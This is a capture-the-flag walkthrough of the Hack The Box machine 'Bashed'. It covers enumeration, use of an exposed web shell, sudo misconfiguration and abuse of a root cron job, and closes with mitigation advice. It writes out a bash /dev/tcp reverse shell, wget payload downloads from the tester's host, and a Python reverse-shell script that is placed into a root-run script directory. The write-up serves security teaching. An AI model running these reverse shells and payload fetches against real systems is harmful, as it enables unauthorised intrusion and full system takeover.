## Summery of Attack Path

Bashed is an easy machine from Hack The Box that focuses on basic web exploitation skills. 
The attack begins with directory enumeration, which leads to the discovery of a web shell hosted on the web server, the web shell was then used to obtain a reverse shell on the system. Using this shell we can find an misconfigured  `sudo` permission which can be abused to obtain access on the `scriptmanager` user. this user has write permission on a file which gets executed as root, as part of a cron job, this was abused to achieve another reverse shell as root.


## Enumeration

**What is Enumeration** - Enumeration is the process of collecting as much information as possible about the target system. Our findings will help us build an attack path, and maximize the probability to of finding and then exploiting vulnerabilities. 
As part of this assessment we will perform several active scans, including scans for open ports and Directory Busting.


The assessment will start with the intention to find open ports on the machine, i will use the `RustScan` tool to identify open ports. Then i will use `nmap` to get extra information about the service.

```bash
> rustsacn -a 10.129.10.68
```



`Rustscan` quickly confirms that port 80 is the only open port. Now, ill use `nmap` to get more information regarding the service running on it. 

> The reason behind running `rustscan` first and then `namp` comes from timing issues, a standard port scanning in `nmap` can consume much time compared to other tools like `rustscan`. 

Now that we have list of open ports  (this case it only one port), use `nmap` , we will specify `-p 80` to scan only the open ports. We will use `-sCV` to try and get version of the service and to run the default `nmap` script on the service which can extract even more information about the service. 

```bash
> sudo nmap 10.129.10.68 -p 80 -sCV -oN bashed.nmap
```



As for now, we know this machine has one port open, port `80` , this is a web site hosted on an Apache httpd web server and its version is `2.4.18`. We can search for vulnerabilities regarding this version. Lets go deeper into the information gathering phase and and use specific Web application enumeration techniques.

Simple `http` request to the address return this `html` page.



This page isn't offering much, we have one line in the page to this page `single.html`.


We can learn few things from the page `single.html` , first as we can see the an "advertisement" to a `phpbash` web shell. In the image below we can see "leaked" endpoint `/uploads/phpbash.php`, as we will later see, this endpoint results in `404` (Not Found)




### What is a Web Shell?
According to [MITRE](https://attack.mitre.org/techniques/T1505/003/) a `Web Shell` is :   
```
A Web shell is a Web script that is placed on an openly accessible Web server to allow an adversary to access the Web server as a gateway into a network.
```

In my words : A web shell is a code (Written by an hacker) that is written in language that can be executed by the remote web server, under the intention of executing system commands. Individual that can upload arbitrary files to a server can dependently upload a web shell and execute commands on the remote host.


Back to the machine, lets try to access the reverse shell in `/uploads/phpbash.php`. 



As we can see the page was not found. With a quick check i can confirm the `uploads` directory is real, lets take this one step further and perform directory busting.


### What is Directory Busting?

Directory busting is a technique used to discover hidden files and directories on a web server. Web servers return different results for real endpoints (Error - `200`), and for fake endpoints (Error - `404`), By utilizing a wordlist (a list of a lot of popular strings that are being regularly used as the names of directories and files) we can `fuzz` (try all the strings in the wordlist, one at a time) a single endpoint until we can identify a real one.


Let's perform directory busting on `10.129.10.68` . We will use a tool called `ffuf` which takes 2 inputs. A `url` to fuzz and a wordlist. Lets first fuzz the `http://10.129.10.68/` endpoint by using very popular wordlist you can find online.

```bash
> ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -u http://10.129.10.68/FUZZ
```

We use `-w` to specify wordlist , and `-u` to enter the `url`, In `ffuf` the indication of the `FUZZ` keyword means and strings in the wordlist will be placed here, again one string at a time.



The results confirms the tool found few endpoints, by examining the error status 301 we can learn these are all directories.

Directories found :
* `uploads`
* `dev`
* `php`
* `images`
* `fonts`
* `js`
* `css`
* `server-status`

The `php` directory can indicate this server can execute `php` code.


`dev` - Development directories often leaks data, as the programmer feels safe to place vulnerable code or sometimes even clear text credentials. If we enter the `/dev` folder we can find the desired `/phpbash.php` file:


A web server must be configured so a regular user will have access only to user content. Development directories and such must be placed outside of the server execution path or must be protected with a password or with a tougher mechanism. 

If we click on the file we will find the web-shell, we can use this web shell to run single commands on the machine and even get a full stable shell with a reverse shell.

#### Enumeration Summery : 

The enumeration process started with active port scan with `rustscan` and `nmap`, we found out open port 80 indicating this is an `http` web server. By accessing the web site we first got the indication of potential web shell hosted on the server. Performing directory busting led to finding of the `dev`  directory that was improperly configured, this directory allows access and listing of directory content by everyone, in the directory we found a script that may allow us to execute code on it.


## Initial Access

By the end of the enumeration phase we found this endpoint: `http://10.129.1.4/dev/phpbash.php`

Accessing this page confirms this is a web shell:




Using the input box down below we can run commands on the target , we can see we have control over the `www-data` user.  Lets use this platform to get a stable reverse shell.




### What is a reverse shell?

To get a shell on a machine basically means having the ability to run system commands (shell commands) on the remote machine. A reverse shell is any code that executes a process which opens a shell and binds it to an outbound connection attempt. When hackers or penetration testers find a way to run code on a remote machine, they can execute a reverse shell. This is a process executed by the remote machine that sends a shell connection back to the attacker’s machine, allowing the attacker to interact with the system remotely. 


For this matter, we will use a simple bash one liner reverse shell , running this code on the target will result in a remote connection attempt back to our machine. Running the command directly utilizing the web shell grants nothing, uploading the command as a script and then executing it tend to be more reliable most of the time. We will use `echo` command to echo the content into a file called `rev.sh`. 

```bash
> echo 'bash -c "bash -i >& /dev/tcp/10.10.16.9/4444 0>&1"' > rev.sh
```


### Uploading the file via python web server

Python 3 by default comes with the HTTP server module. it lets us quickly launch a web server on the current directory and bind it to any chosen port.  Running the next command will start the HTTP server on port `80`:

> There is reasoning behind choosing port 80, we can find many situations where an outbound connection from company PCs are allowed only on certain ports, port like port 80 is heavily used by all workers so we often find it open and allowed, as we will soon find there are no firewall restrictions on this machine, but this is impotent to note. 

```bash
sudo python3 -m http.server 80
```

From the Web shell we will run this command to download the file and save it under the `/tmp` directory.

```bash
> wget http://10.10.16.9/rev.sh -O /tmp/rev.sh
```

After executing the `wget` command we will get feedback on the python server that the file has been successfully downloaded.




For some reason, i had problems with `chmod +x /tmp/rev.sh`, as it it resulted in an error, instead we can run bash with the script as an argument, this way we can run file without execution rights.

```bash
> /bin/bash /tmp/rev.sh
```




## Lateral Movement

### Abusing Sudo Privileges

`sudo` is a tool that can be used to run other software as different user, this tool comes pre-installed on almost every UNIX system and is used most of the time to execute single commands as the root user. With the chances to finding some `sudo`  privileges  being high, its always smart to check if our current low-privileged user has interesting permissions. 


`sudo` is an interactive tool that (can) require a password from the user, our current shell is lacking a `tty` , we can spawn a `tty` using python, resulting in an interactive shell.

```bash
> python3 -c 'import pty; pty.spawn("/bin/bash")'
```


Now can run the following command to see `sudo` configurations regarding out current user.

```bash
> sudo -l
```



As we can see we can run every command as the user `scriptmanager` without the need for password. This indicate a low security posture. We can abuse this to run `bash` as the user `scriptmanager` resulting in  a full shell as the `scriptmanager` user.

```
sudo -u scriptmanager /bin/bash
```



As you can see the shell has no prompt and we can also infer it is not interactive as well , lets fix using the same python command:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```




## Privilege escalation

### Using Automated Scripts

The use of automation scripts in penetration testing has some pros and some flaws, we can often find our self  receiving too much information from a tool, finding a vulnerability in this output can be just as time consuming as finding vulnerability  running commands manually, personally for linux privilege escalation scenarios  i do tend to use the `linpeas` script. `linpeas` is a well known privilege escalation automation script you can find online and its equivalent - `winpeas` for windows.


We can host `linpeas.sh` file in the same directory where we opened the python web server and download it from the vulnerable machine using `wget`

> Dont forget to use `chmod` before executing the file.




### Inspecting linpeas Results

The script has fond a directory called `scripts` in the root (`/`) directory. 



Moving into the directory the listing the files inside shows two file a python script and a text file.



Observing the file revels the script algorithm, it creates a file called `text.txt` (the second file) and write a string into it. The most interesting part in this situation is that this file is editable by the `scriptmanager` user which we control.


 
 If all the clues pointing to that this is a script that gets executed on each x time (We can see the file has been executed already and the directory name is scripts) are not enough, we can prove this is a script using `pspy`.
 `pspy` is process monitoring script that prints **all** the process creation events, which can reveal commands executed on the system, which can confirm the same command running at the same intervals. The script can be run as regular user and produce the same result! which makes this tool very powerful at detecting running services. 

Lets again host the file in a python web server and use `wget` to download it, indication of the file being downloaded can be seen below.



After running the file, we must wait some time for the script to be run, after the script execution we can see the output below, if we check the `PID` numbering we can see this is a a `cron` job that executes any python scripts that are  in the `scripts` directory.  We can also see that this gets executed with the highest privilege possible (`UID=0`)



### Abusing Cron Jobs for PrivEsc

Cron jobs are a vital concept in linux systems, a system administrator is advised to use cron jobs to automate a a process that must be started each x time. For example - a backup of files that must be executed all weekend, instead of running this manually each weekend  a cron jobs can easily be configured to automate the process,  each cron jobs is running under certain privileges so the code that executed eventually gets executed with the same privileges, we have many ways to abuse different cron configurations.

Lets combine all enumeration artifact we have so far before executing the attack which will result in a root shell.

We have a service which is running almost every minute (`pspy`) , and is executed as root (`pspy`) and running a command that executes all the scripts in the scripts directory (`test.py`). This can very easily be abused by placing a python script, we can take it to many places from here , lets write a simple python script that implements the same reverse shell ideas as we seen before.  

First, lets keep the original file save and rename it to something else so it doesn't get overwritten by the new file.  



The script looks as following, it creates a socket, bind it to our listener and attach a shell process to it.




```python
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.9",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```

In order for this attack to work we must execute the following commands, first use `nc` to set the listener in our host. the host the file in a python web server, and on the target machine run the `wget` command. 
The file is now downloaded and placed in `/scripts` where it will get executes sooner or later, and resulting with a root shell

```
 nc -lvnp 4444
 sudo python3 -m http.server 80
 wget http://10.10.16.9/rev.py -O /scripts/test.py
```

As we can see:



And the system flag can be found on `/root` : 




## Mitigation

All vulnerabilities identified in this system originate from several misconfigurations.
### Immediate Actions
- Remove the development script from the publicly accessible web directory.
- Update the `/etc/sudoers` configuration to require authentication before allowing commands to be executed as the `scriptmanager` user. Additionally, review whether the `www-data` user should have any `sudo` privileges at all.
- Disable directory listing on the web server to prevent users from browsing sensitive directories.
### Medium-Term Actions
- Implement firewall rules that restrict outbound connections from the server to only required destinations and ports.
### Long-Term Actions
- Apply the **principle of least privilege**, ensuring that each user and service has only the permissions strictly required to perform their tasks. Proper privilege separation would significantly reduce the likelihood of exploitation in scenarios similar to those identified in this assessment.